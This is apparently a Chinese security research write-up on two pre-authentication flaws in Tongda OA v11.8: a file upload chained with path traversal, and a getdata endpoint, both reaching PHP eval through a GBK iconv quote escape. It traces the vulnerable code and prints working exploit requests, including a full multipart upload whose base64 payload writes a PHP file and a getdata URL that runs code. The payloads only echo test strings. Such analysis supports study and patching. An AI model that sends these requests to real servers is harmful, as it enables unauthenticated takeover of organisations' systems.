# 通达 v11.8前台文件上传&命令执行漏洞利用分析 - 先知社区

通达 v11.8前台文件上传&命令执行漏洞利用分析

- - -

## api.ali.php任意文件上传

### 影响版本

v11.8

### 漏洞复现过程：

漏洞原理是通过文件上传上传一个json文件，再通过调用程序去解析json文件执行里面php语句

首先需要上传一个json文件

完整数据包：

```plain
POST /mobile/api/api.ali.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 422
Content-Type: multipart/form-data; boundary=502f67681799b07e4de6b503655f5cae
Accept-Encoding: gzip

--502f67681799b07e4de6b503655f5cae
Content-Disposition: form-data; name="file"; filename="fb6790f4.json"
Content-Type: application/octet-stream


{"modular":"AllVariable","a":"ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIGVjaG8gdnVsbl90ZXN0Oz8+Jyk7","dataAnalysis":"{\"a\":\"錦',eval(base64_decode($BackData[a])));/*\"}"}

--502f67681799b07e4de6b503655f5cae--
```

接着发送get请求写入文件，成功在webroot目录下写入fb6790f4.php，2109为年月份

```plain
/inc/package/work.php?id=../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
```

### 分析过程

文件上传功能实现的地方在mobile/api/api.ali.php文件下

其中包含了conn.php、api.api.class.php、utility\_file.php三个文件，这三个文件都是负责加载通达的配置信息以及通用函数，不涉及权限验证

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213102217-6ffc1b86-995e-1.jpg)

跟进到utility\_file.php下的upload()

$ATTACH\_NAME = filename\_valid($ATTACH\_NAME); $ATTACH\_NAME的值是上传时的文件名

接着会判断上传的文件后缀是否是允许的，限制了php,php3,php5等文件后缀，以及文件名是否合法，当没有错误后会进入到1761行中

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213102230-7730ca00-995e-1.jpg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213102239-7cc9fb62-995e-1.jpg)

跟进add\_attach()，系统会将我们上传的文件保存在attach/approve\_center/2301文件夹下面，其中2301是上传的年月份

文件名$FILENAME由$ATTACH\_ID和$ATTACH\_FILE两部分组成，$ATTACH\_ID是随机生成一串数字，通过跟进发现MYOA\_ATTACH\_NAME\_FORMAT恒为false，所以最终的文件名为 随机数字+上传文件名

通过这个功能可以上传一个除可执行文件外的文本文件到服务器上

```plain
$ATTACH_NAME = str_replace($EXT_NAME, strtolower($EXT_NAME), $ATTACH_NAME);
$ATTACH_FILE = (MYOA_ATTACH_NAME_FORMAT ? md5($ATTACH_NAME) . ".td" : $ATTACH_NAME);
$ATTACH_ID = mt_rand();
$FILENAME = $PATH . "/" . $ATTACH_ID . "." . $ATTACH_FILE;
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213102311-90085c46-995e-1.jpg)

触发生成php文件的功能点代码文件在/inc/package/work.php下，也没有做鉴权操作

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213102324-975f3942-995e-1.jpg)

接收了一个id参数，进入到DataTransport类下的acceptData()，程序首先将用户传入的id拼接到文件路径里，接着执行file\_get\_contents()读取$json\_file所指向的文件

MYOA\_ATTACH\_PATH2的值为myoa/attach，问题在于$id在路径中做了两次拼接，程序没有对../进行过滤，而且经过上面的分析我们知道上传到服务器上的文件名都带有一串9位数的随机数字，我们没有得到准确的文件名

在linux下可以通过\*、？这一类的通配符来匹配文件名，例如/etc/passwd可以用/etc/pass\*\*来匹配成功的，在file\_get\_contents()里也可以用<,>来实现，用’<<<<<<<<<<’来匹配随机生成的9位数随机数

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213102354-a971a64c-995e-1.jpg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213102414-b52e9bde-995e-1.jpg)

file\_get\_contents()读取文件时，存在一些特殊的特性，在d盘data文件夹下创建test.txt文件用来测试，使用file\_get\_contents()进行文件读取

```plain
file_get_contents(“D:/data/test.txt”)
file_get_contents(“D:/aabb/../../../../../../../data/test.txt”)
file_get_contents(“D:/baba/daad/../../hah/das/../../../data/test.txt”)
```

这三种FilePath的形式到最后都能成功读取到data/test.txt文件，只要最后一个../后面是正确的路径地址，file\_get\_contents()都能成功读取到文件。

其中还有一个关键部分，就是跨目录层数要大于等于目录层数

```plain
file_get_contents(“D:/MYOA/attach/syn/resc/../../attach/syn/resc/../../MYOA/attach/syn/recv/test.txt”)
file_get_contents(“D:/MYOA/attach/syn/resc/../../../../attach/syn/resc/../../../../MYOA/attach/syn/recv/test.txt”)
```

第一种写法是无法读取到test.txt文件的，第二种是可以的，可以根据这两种之间的区别去理解

现在已经可以解决关于json\_file文件读取的问题了，接着在work.php中传入id的参数为

```plain
../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
```

程序读取完json文件后，执行到AllVariableBusinessProcessing类的backDataAnalysis()

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213102424-bba8da6a-995e-1.jpg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213102445-c7b15f62-995e-1.jpg)

该方法下存在eval函数可以执行代码，而且$variableData的值是可控的

```plain
$variableData = $BackData["dataAnalysis"];
$variableData = json_decode($variableData, true);
$variableData = eval "return " . iconv("UTF-8", "GBK", var_export($variableData, true) . ";");
```

至于dataAnalysis为什么是这种格式，下面会详细讲到，这里先给出一个demo

```plain
$c = 'ZWNobyAxMjM0Ow==';        //base64解码后为echo 1234;
$d = 'ZWNobyAxMjM7';            //base64解码后为echo 123;

$a = array(
  'a'=>'eval(base64_decode($d))',
);


$b = array(
  'a'=>'b',eval(base64_decode($c)));/*',
);
```

在上面的代码中，定义了两个数组a和b，执行过后就能看到程序输出了1234，这说明$b中的php语句成功执行了。所有只要用户能控制$b\[a\]的值，令$b\[a\]='b',eval(base64\_decode($c)));/\*'，闭合掉前面的单引号那就可以执行恶意的php语句了

但是当调用work.php读取json文件的内容到$variableData时会对其中的单引号进行转义，php代码要执行成功，就必须将单引号逃逸出来与前面的单引号进行闭合

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213102458-cfb9ab56-995e-1.jpg)

所幸主角iconv出来救场了。iconv在这里的作用是将$variableData从UTF-8编码转换成GBK编码，其中錦的UTF-8编码是\\xE9\\x8C\\xA6，GBK编码是\\xB0\\xA1，当编码转换之后\\xB0\\xA1会和\\组成一个新的字符，单引号就成功逃逸出来了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213102824-4a7d1dbe-995f-1.jpg)

## getdata任意命令执行

在v11.8版本下还存在一个前台任意命令执行漏洞，该漏洞的漏洞利用方法和上面的类似

```plain
payload: /general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval(base64_decode(%22ZWNobyB2dWxuX3Rlc3Q7%22)))%3B/*&id=19&module=Carouselimage
```

漏洞代码在general/appbuilder目录下，而且是MVC的架构，首先看web/index.php文件，判断config\[“params”\]\[“LOGIN\_UID”\]是否为空，跟进config/web.php文件可以看到config\[“params”\]\[“LOGIN\_UID”\]=””

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213103247-e74a2402-995f-1.jpg)

继续向下执行会判断是否存在相应LOGIN\_UID的session，我们在未登录的情况下是不存在的，所以会进入到下面的else语句

```plain
else {
        $url = $_SERVER["REQUEST_URI"];
        $strurl = substr($url, 0, strpos($url, "?"));
        if (strpos($strurl, "/portal/") !== false) {
            if (strpos($strurl, "/gateway/") === false) {
                header("Location:/index.php");
                sess_close();
                exit();
            }
            else if (strpos($strurl, "/gateway/saveportal") !== false) {
                header("Location:/index.php");
                sess_close();
                exit();
            }
            else if (strpos($url, "edit") !== false) {
                header("Location:/index.php");
                sess_close();
                exit();
            }
        }

        else if (strpos($url, "/appdata/doprint") !== false) {
            $_GET["csrf"] = urldecode($_GET["csrf"]);
            $b_check_csrf = false;
            if (!empty($_GET["csrf"]) && preg_match("/^\{([0-9A-Z]|-){36}\}$/", $_GET["csrf"])) {
                $s_tmp = __DIR__ . "/../../../../logs/appbuilder/logs";
                $s_tmp .= "/" . $_GET["csrf"];
                if (file_exists($s_tmp)) {
                    $b_check_csrf = true;
                    $b_dir_priv = true;
                }
            }
            if (!$b_check_csrf) {
                header("Location:/index.php");
                sess_close();
                exit();
            }
        }

        else {
            header("Location:/index.php");
            sess_close();
            exit();
        }
    }
```

通过分析代码，可以知道/portal/gateway/\*\*下的路由只有/potal/gateway/saveportal是需要鉴权的，所以这是一个前台的RCE

根据漏洞的poc最终找到漏洞文件在modules/portal/controllers/GatewayController.php，用户传入的module=Carouselimage，程序执行到2016行进入到$component->GetDate()，传入的参数里有$activeTab，也就是需要执行的命令

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213103306-f2aeaa98-995f-1.jpg)

跟进到modules/portal/models/PortalComponent.php#GetData()，系统通过id查询数据库中的内容，$comtype在后续会使用到，要令$comtype=1

$comtype = (string) $data->comtype;

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213103352-0e19c498-9960-1.jpg)

从数据库的查询结果可以看到，只要我们令id=19就能控制comtype=1

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213103409-180487a4-9960-1.jpg)

接着将id,comtype,attribute存在$this\_array里，接着进入到data\_analysis()

```plain
$this_array = array("id" => $id,
                    "source" => $source,
                    "attribute" => $attribute,
                    "comtype" => $comtype,
                    ....)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213103333-0294de14-9960-1.jpg)

/portal/components/AppDesignComponents.php#data\_analysis()，$classname=Carouselimage，当$thisarray\["comtype"\] == "1"时，执行到free\_components/AppCarouselimage.php#get\_data()

从Gateway控制器下到AppCarouselimage.php#get\_data()都没有对$activeTab进行处理和过滤，

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213103427-22c9bb0a-9960-1.jpg)

回到gateway控制器下，执行完$component->GetData()后会返回一个带有$activeTab参数的数组

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213103440-2a4fb6fe-9960-1.jpg)

跟进toUtf8()，程序通过eval执行我们的命令，这里也使用到了iconv，所以payload构造原理和上面分析的一样

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213103449-300d15b4-9960-1.jpg)
